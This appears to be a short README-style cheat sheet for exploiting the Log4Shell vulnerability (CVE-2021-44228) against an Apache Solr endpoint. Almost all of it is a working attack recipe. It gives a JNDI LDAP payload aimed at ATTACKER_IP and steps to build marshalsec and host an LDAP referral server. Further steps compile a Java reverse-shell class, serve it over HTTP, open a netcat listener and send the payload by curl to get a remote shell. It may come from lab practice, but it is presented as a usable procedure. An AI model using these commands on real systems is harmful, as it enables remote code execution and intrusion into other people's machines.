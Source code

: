 ## CVE-2021–44228 Log4j

### CVSS Score: 10

### Tools: mvn marshalsec netcat JNDI Exploit kit https://github.com/pimps/JNDI-Exploit-Kit

### Payload example: ${jndi:ldap://ATTACKER_IP:1389/Exploit.class}

## Steps: 

#### 1) cd /marshalsec

#### 2) mvn clean package -DskipTests (Install marshalsec utility

#### 3) java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER_IP:8000/#Exploit" (Host LDAP server with marshalsec

#### 4) Create a java reverse shell exploit (Exploit.java)

#### 5) javac Exploit.java -target 8 -source 8 (Compile the java exploit into a class file (Exploit.class))

#### 6) python3 -m http.server 8000 (Host compiled payload to HTTP server)

#### 7)  nc -lvnp PORT (Setup listener)

#### 8) curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER_IP:1389/Exploit\}' (Send payload to target machine to get a reverse shell)
